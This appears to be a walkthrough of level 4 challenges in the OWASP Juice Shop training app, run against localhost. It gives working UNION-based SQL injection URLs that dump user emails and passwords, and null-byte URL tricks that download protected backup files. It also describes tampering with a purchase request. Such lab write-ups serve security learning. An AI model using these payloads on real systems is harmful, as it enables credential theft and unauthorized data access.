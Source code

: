 # Level 4

## User Credentials
We need to do a sql injection with union select on the users table, we use the search box that is vulnerable and visit this url:

```
http://127.0.0.1:3000/rest/products/search?q=apple')) union select null,email,password,id,NULL,NULL,NULL,NULL,NULL from users --
```

## Christmas Special

We need to retrive the id of the product, to do this we use a sql injection with the union select, on the product search box, this is the url:

```
http://127.0.0.1:3000/rest/products/search?q=apple')) union select id,name,description,price,NULL,NULL,NULL,NULL,NULL from products --
```

We will find that the id is 10, so now as a login user we intercept the buy pocket of a product and sobstitute the id with 10.

## Forgotten Sales Backup

We need to go to /ftp and try to download the "coupons_2013.md.bak" file. To do that we encode the "%" as %25 followed by 00 the code that make file downloadable.

```
wget http://127.0.0.1:3000/ftp/coupons_2013.md.bak%2500.pdf
```

## Forgotten Developer Backup

As [Forgotten Sales Backup](https://github.com/AlessandroMorelli96/Juice-Shop/blob/master/04_Level4.md#Forgotten-Sales-Backup), but this time we download "package.json.bak".

```
http://127.0.0.1:3000/ftp/package.json.bak%2500.pdf
```

## Easter Egg

As [Forgotten Sales Backup](https://github.com/AlessandroMorelli96/Juice-Shop/blob/master/04_Level4.md#Forgotten-Sales-Backup), but this time we download "eastere.gg".

```
http://127.0.0.1:3000/ftp/eastere.gg%2500.pdf
```
